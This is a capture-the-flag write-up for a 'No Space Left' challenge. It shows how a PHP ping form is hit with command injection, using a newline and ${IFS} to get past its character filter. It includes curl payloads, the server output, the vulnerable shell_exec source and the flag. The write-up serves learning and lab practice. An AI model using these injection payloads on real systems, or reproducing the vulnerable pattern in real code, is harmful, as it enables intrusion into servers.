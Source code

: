 # 3 - No Space Left

Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

http://rsxc.no:9007

# Note

Number 3 to 6 I used a few minutes to check out, then I randomly tested if the flag was unprotected as it is in the same folder as the `index.php` and sure enough. I could just access `flag.txt` by adding that to the URL. So my points skyrocketed at that moment. 

I knew that was not the intended solution so even if I got the flag I wanted to complete it "legally" before continuing so I could write a proper writeup.

**Update**: This was fixed later on and flag is now in `/flag.txt`. This writeup still works the same just add a `/`

# Writup

I must admit that getting nothing back on any attempts makes this hard. But I see illegal input on a lot of characters and since the title is `no space left` I do see it there to.

So what to append to `nonexistingcommand $1` to make it work. I tested a few things and I saw that newline works. So using curl I can easily send a newline like this. I could prolly urlencode it aswell but this gave me an `ls` output.

```console
toffe@kali:~$ curl http://rsxc.no:9007 -d "ip=
ls"
```

This returned:

```html
<html>
<head>
        <title>No space left</title>
        <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
        <h1>No space left</h1>
        <form method="post">
                <p>Input a valid IP to ping:</p>
                <input type="text" name="ip">
                <input type="submit" value="Ping">
        </form>
        <pre class='output'>flag.txt
index.php
style.css
</pre></body>
</html>
```

So newline then we need to output the file data. So I googled `how to cat a file without space` and [stackexchange](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces) to the rescue.

```console
toffe@kali:~$ curl http://rsxc.no:9007 -d "ip=
cat\${IFS}flag.txt"
```

There we had the flag. We cat the php for information:

```php
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
        $ip = $_POST['ip'];

        if (preg_match('/[&|;`\'" ]/',$ip)) {
                echo "<p align='center' style='color:red;'>Illegal Input Discovered</p>";
                die();
        }

        $output = shell_exec("ping -c 1 $ip");
        echo "<pre class='output'>$output</pre>";
}
?>
```

# Flag

```
RSXC{NO_MORE_SPACES_WERE_ALLOWED_BUT_NEWLINES_ARE_OK}
```